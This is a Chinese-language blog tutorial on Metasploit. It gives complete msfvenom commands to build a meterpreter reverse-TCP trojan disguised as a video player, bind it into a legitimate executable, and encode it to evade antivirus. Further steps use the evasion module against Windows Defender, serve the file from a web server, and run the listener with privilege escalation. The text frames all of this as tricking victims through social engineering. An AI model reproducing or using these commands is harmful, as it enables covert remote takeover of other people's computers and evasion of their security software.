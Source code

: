 ```yaml
---
title: "制作Windows恶意软件监听个人电脑"
date: 2020-02-22T17:25:22+08:00
author: 姚先生
categories: ['Kali']
tags: ['安全渗透']
---
```


Metasploit木马命令制作windows恶意软件提权监听个人电脑



<!--more-->



## 客户端渗透原理 

> 在无法突破对方的网络边界的时候，往往需要使用客户端渗透这种方式对目标发起攻击，比如 我们想目标发一个含有后门的程序，或者是一个word文档、pdf文件，利用好社会工程学，来诱骗受害者执行恶意程序。通常用户的计算机都安装了安全软件，一般我们生成的恶意程序都会被检测.设计的恶意软件可以利用人的劣根性，但是也需要利用免杀来躲避 安全软件的查杀



## 制作Windows恶意软件获取shell

> msfvenom是msfpayload,msfencode的结合体，可利用msfvenom生成木马程序,并在目标机 上执行,在本地监听上线

## 原理

![](http://junmoxiao.org.cn/20200222173629.png)

## 实现步骤

* 生成西瓜影音.exe后门程序 

  ~~~
  msfvenom -h #帮助文档
  ~~~

  ~~~
  msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.130 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai  -i 10 -f exe -o /var/www/html/西瓜影音.exe 
  ~~~

> 参数说明
>
> -a 指定架构如x86x64  x86代表32位， x64代表64位。 32位软件可以在64位系统上运行。 所以我们生成32位的后门，这样在32位和64位系统中都可以使用。 
>
> --platform 指定平台 通过 --l platforms可以查看所有支持的平台 
>
> -p 设置攻击载荷 通过-l payloads查看所 有攻击载荷
>
> LHOST 目标主机执行程序后连接我们Kali的地址
>
> LPORT 目标主机执行程序后连接我们Kali的端口 
>
> -b 去掉坏字符，坏字符会影响payload正常执行  \x00 ->null 
>
> -e 指定编码器，也就是所谓的免杀 可以通过 -l encoders查看所有编码器
>
> -i 指定payload有效载荷编码迭代次数。 指定编码加密次数，为了让杀毒软件，更难查出源代码 
>
> -f 指定生成格式  用 -l formats 查看所有支持的格式
>
> -o 指定文件名称和导出位置  指定到网站根目录/var/www/html，方便在肉机上下载后门程序

* 开启WEB服务
* 在MSF上启动handler开始监听后门程序

~~~
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
run
help
backgroud
sessions
~~~

![](http://junmoxiao.org.cn/20200222183539.png)



## 给真正的软件加上后门

* 先下载一个正常的软件

* 把payload后门和这些小程序绑定到一起

  ~~~
  msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.130 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -i 20 -f exe -x QvodTerminal.exe -o /var/www/html/QvodTerminal.exe
  ~~~

* 开启WEB服务

* 在MSF上启动handler开始监听后门程序

~~~
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
run
help
backgroud
sessions
~~~

## Metasploit evasion模块生成后门木马 

> evasion 是 metasploit 自带的模块，使用此模块可以生成反杀毒软件的木马

![](http://junmoxiao.org.cn/20200222192233.png)

* 生成后门程序 

~~~
banner
search evasion
use evasion/windows/windows_defender_exe
set payload  windows/meterpreter/reverse_tcp
run
~~~

* 打开另一个终端，将生成的木马文件复制到 /var/www/html ，开启WEB服务
* 启动handler开启监听后门木马

~~~
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
run
help
getsystem
backgroud
sessions
~~~

